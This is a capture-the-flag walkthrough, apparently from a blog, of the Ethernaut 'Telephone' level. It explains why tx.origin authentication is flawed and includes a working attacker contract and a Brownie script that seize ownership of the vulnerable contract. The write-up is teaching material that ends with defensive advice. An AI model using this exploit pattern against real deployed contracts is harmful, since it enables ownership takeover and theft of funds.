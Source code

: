 ```yaml
---
title: Ethernaut - Level 04 - Telephone
date: 2022-08-24
---
```

{{<figure src="../images/telephone-4.svg" caption="Image courtesy of OpenZeppelin">}}
## Ethernaut 04 - Telephone
This level from Ethernaut, called Telephone, is a good exercise to learn the nuances between `tx.origin` and `msg.sender` and why you should never use `tx.origin` for authentication purposes:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Telephone {

  address public owner;

  constructor() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

Solidity has a global variable, `tx.origin`, which traverses the entire call stack and returns the address of the account that originally sent the transaction (or performed the call). Using this global variable for authentication in smart contracts leaves the contract vulnerable to phishing-like attacks, which is exactly what this level is about.

According to Solidity’s documentation:

> `tx.origin` holds the address of the sender of the transaction, while `msg.sender` holds the address of the sender of the message

This means that `tx.origin` will refers to the address of an account that sent a transaction, and `msg.sender` refers to the address of an account or a smart contract that is directly calling a smart contract’s function.

{{<figure src="../images/txorigin-msgsender.png" caption="Image courtesy of OpenZeppelin">}}

Based on the previous image, if `Account` calls `contract A` , and `contract A` calls `contract B`, in `contract B`, the value assigned to `msg.sender` will be `contract B` and the value assigned to `tx.origin` will be `Account`.

## Where is the vulnerability?
The vulnerability in this contract is contained in the `changeOwner` function, as it uses `tx.origin` in the if statement before changing the contract’s owner:

```solidity {lineos=table,hl_lines=[2],lineofstart=1}
  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
```
We will pass this level if `tx.origin` differs from `msg.sender` . This can be achieved if `msg.sender` is whatever address that calls the `changeOwner` function and `tx.origin` is the address that originally started the transaction. In other words, we will use a malicious contract (`telephoneAttack.sol`) as middleman. Once we first call our `telephoneAttack.sol` contract, it will call the `Telephone.sol` instance. For the `Telephone.sol` contract, `tx.origin` will be our EOA’s (external owned account) address and `msg.sender` will be our `telephoneAttack.sol` contract’s address.

A vulnerability like this, costed THORChain $8 million dollars, as Adrian Hetman documented in his [Unboxing tx.origin: Rune Token case](https://www.adrianhetman.com/unboxing-tx-origin/) article.

## Hacking the contract
Let's start creating our malicious contract, `telephoneAttack.sol`, with the following implementation:

```solidity {lineos=table,hl_lines=[9,10,11,13,14],lineofstart=1}
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import 'interfaces/telephoneInterface.sol';

contract TelephoneAttack {
    TelephoneInterface telephone;

    constructor(address _attackerAddress) public{
        telephone = TelephoneInterface(_attackerAddress);
    }

    function exploit() public {
        telephone.changeOwner(msg.sender);
    }

    function destroy() public {
        selfdestruct(msg.sender);
    }
}
```

As always, the script to trigger the attack is shown below:

```python {lineos=table,hl_lines=[5,6,11],lineofstart=1}
from brownie import accounts, config, interface, web3, TelephoneAttack


def exploit(target, hacker):
    deploy_attack = TelephoneAttack.deploy(target, {"from": hacker})
    deploy_attack.exploit({'from': hacker, 'allow_revert': True})
    deploy_attack.destroy({'from': hacker})


def main(target):
    hacker = accounts.add(config['wallets']['from_key'])
    print(f'Attacker address: {hacker}, Target address: {target}')
    exploit(target, hacker)
```


Based on the explanation provided before the attack can be summarized in few steps:

- We start by deploying our malicious contract (`TelephoneAttack.deploy`), therefore, `tx.origin` will have the user's account address.
- The `TelephoneAattack` contract initializes an instance of `Telephone` within its `constructor` passing the `TelephoneAttack` contract's address as `msg.sender`.
- Our script will call `deploy_attack.exploit`, which executes the `exploit()` function and calls `telephone.changeOwner(msg.sender);`.
- As mentioned earlier in this walkthrough, the `tx.origin` is a global variable which traverses the entire call stack and returns the address of the account that originally sent the transaction, our user account, differing from the value assigned to `msg.sender` (Our `TelephonAttack` contract's address).
- As `tx.origin` differs from `msg.sender`, our exploit will pass the `if` statement and execute the `owner = _owner;` statement, assigning us as the contract's legitimate owner

## Takeaways
The most valuable takeaway from this challenge is to learn to do not use `tx.origin` for authorization purposes, additionally, by using `tx.origin` you are limiting interoperability between contracts, since contracts using `tx.origin` cannot be used by other contracts (*a contract can never be the `tx.origin`*). Instead, you should use `msg.sender` for authorization.